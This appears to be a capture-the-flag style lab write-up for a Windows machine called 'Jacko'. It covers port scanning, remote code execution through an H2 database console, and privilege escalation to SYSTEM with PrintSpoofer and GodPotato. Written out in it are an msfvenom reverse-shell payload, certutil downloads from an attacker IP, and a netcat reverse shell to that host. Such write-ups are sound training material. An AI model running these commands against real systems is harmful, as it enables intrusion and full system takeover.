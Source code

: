 # Jacko

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.66
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:07 +08
Nmap scan report for 192.168.197.66
Host is up (0.17s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
5040/tcp  open     unknown
8082/tcp  open     blackice-alerts
9092/tcp  open     XmlIpcRegSvc
41213/tcp filtered unknown
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49668/tcp open     unknown
49669/tcp open     unknown
57199/tcp filtered unknown
```

Lots of ports. I did a detailed `nmap` scan to further enumerate the ports. We would find a H2 Instance on one of the ports from this scan:

```
$ sudo nmap -p 80,135,139,445,5040,8082,9092 -sC -sV -O -T4 -Pn 192.168.197.66
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:25 +08
Nmap scan report for 192.168.197.66
Host is up (0.17s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5040/tcp open  unknown
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc?
```

The H2 Database does have a few code execution exploits that might work.&#x20;

### H2 Database --> RCE

Port 8082 shows us the login to the H2 database.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We can just click 'Connect', and login successfully.

<figure><img src="../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

This version has code execution exploits available:

```
$ searchsploit H2 Database 1.4.199
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
H2 Database 1.4.199 - JNI Code Execution                   | java/local/49384.txt
----------------------------------------------------------- ---------------------------------
```

To exploit this, we would need to just copy and paste the script contents of the `searchsploit` file twice, and we would get RCE:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

To get a reverse shell, simply use these 2 commands with a `msfvenom` generated payload.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.177 LPORT=21 -f exe > pwn.exe
certutil -urlcache -split -f http://192.168.45.177/pwn.exe C:\\Windows\\Tasks\\pwn.exe
C:\\Windows\\Tasks\\pwn.exe
```

<figure><img src="../../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

`whoami.exe` is located in `C:\Windows\System32`, and this machine has a broken PATH variable.

## Privilege Escalation

### PrintSpoofer Fail

We can check our privileges using `whoami.exe`:

```
C:\Windows\System32>whoami.exe /priv
whoami.exe /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The `SeImpersonatePrivilege` is enabled, so we can use `PrintSpoofer.exe` to exploit this. First, let's download the binary to the machine:

```
C:\Windows\System32>certutil -urlcache -split -f http://192.168.45.177/PrintSpoofer.exe C:/Windows/Tasks/print.exe
certutil -urlcache -split -f http://192.168.45.177/PrintSpoofer.exe C:/Windows/Tasks/print.exe
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.
```

However, the exploit seems to fail:

```
C:\Users\tony\Desktop>.\print.exe -i -c cmd
.\print.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[-] Operation failed or timed out
```

So we have to find another way.&#x20;

### GodPotato.exe

We can try using `GodPotato.exe` since that privilege is probably the intended solution:

```
C:\Windows\Tasks>.\godpotato.exe -cmd "cmd /c whoami"
.\godpotato.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140725151858688
[*] DispatchTable: 0x140725154201184
[*] UseProtseqFunction: 0x140725153568784
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\509f9274-ba8c-4b7c-844e-55d04cdf359c\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00009002-05c4-ffff-2de7-6cc9f11fd1cf
[*] DCOM obj OXID: 0x20259e4ef373758d
[*] DCOM obj OID: 0xdee8046159a66ec5
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 800 Token:0x504  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 408
```

Looks like it works well. Now we can download `nc.exe` onto the machine and get ourselves another reverse shell.&#x20;

```
C:\Windows\Tasks>.\godpotato.exe -cmd "cmd /c C:/Windows/Tasks/nc.exe 192.168.45.177 4444 -e cmd.exe
.\godpotato.exe -cmd "cmd /c C:/Windows/Tasks/nc.exe 192.168.45.177 4444 -e cmd.exe"
[*] CombaseModule: 0x140725151858688
[*] DispatchTable: 0x140725154201184
[*] UseProtseqFunction: 0x140725153568784
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\36900a7f-bec3-4dd7-9606-fc8ece7a7d11\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00008802-0d1c-ffff-64b7-d6de22e4ee03
[*] DCOM obj OXID: 0x1bb30dc7fc7c0cb7
[*] DCOM obj OID: 0x770fb99694a2c278
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 800 Token:0x504  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 1592
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

This is a SYSTEM shell, and we can grab the required flags. Rooted!
